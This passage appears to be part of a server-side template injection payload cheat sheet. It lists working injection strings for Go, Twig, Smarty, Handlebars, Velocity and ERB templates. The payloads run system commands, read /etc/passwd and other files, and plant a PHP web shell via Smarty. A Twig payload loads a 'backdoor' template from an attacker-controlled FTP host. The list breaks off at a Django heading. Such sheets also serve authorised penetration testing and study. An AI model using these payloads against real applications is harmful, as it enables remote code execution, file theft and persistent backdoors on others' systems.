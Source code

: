 ```go
{{.Email}}
{{.Password}}
{{ .system "id" }}
```
### `Twig (PHP)`
```php
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```

### `Smarty (PHP)`
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```
### `Handlebars(NodeJS)`
```js
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
### `Velocity`
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
### `ERB (Ruby)`
```ruby
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
### `Django Tricks (Python)`